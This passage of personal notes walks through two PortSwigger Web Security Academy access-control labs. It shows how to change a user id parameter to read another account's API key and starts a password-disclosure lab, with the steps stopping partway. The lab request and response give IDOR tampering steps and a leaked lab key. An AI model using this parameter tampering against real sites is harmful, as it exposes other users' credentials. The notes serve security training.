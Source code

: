 ![[Pasted image 20220514003347.png]]

![[Pasted image 20220514003641.png]]

![[Pasted image 20220514003530.png]]

### User ID controlled by request parameter with data leakage in redirect
```bash

# This lab contains an access control vulnerability where sensitive information is leaked in the body of a redirect response.

# To solve the lab, obtain the API key for the user carlos and submit it as the solution.

# You can log in to your own account using the following credentials: wiener:peter 

Log in as wiener:peter
Note the end-point

https://ac1b1fdf1f55abf5c0edd61e001100a8.web-security-academy.net/my-account?id=wiener

Intercept is on
Try:

https://ac1b1fdf1f55abf5c0edd61e001100a8.web-security-academy.net/my-account?id=carlos

Request:

GET /my-account?id=carlos HTTP/1.1

Response:

HTTP/1.1 302 Found

'Your username is: carlos'

'Your API Key is: VaVyLwaOBhV2taUYAyNGyXcmNwiGLF2z'

```

![[Pasted image 20220514004843.png]]

### User ID controlled by request parameter with password disclosure
```bash

# This lab has user account page that contains the current user's existing password, prefilled in a masked input.

# To solve the lab, retrieve the administrator's password, then use it to delete carlos.

# You can log in to your own account using the following credentials: wiener:peter 

Log in as wiener:peter
Go to:

https://ac011f1f1e0642f5c0b4c753004400dd.web-security-academy.net/admin

Note the name "administrator"
Go to Home:
Intercept is on
Refresh the page
```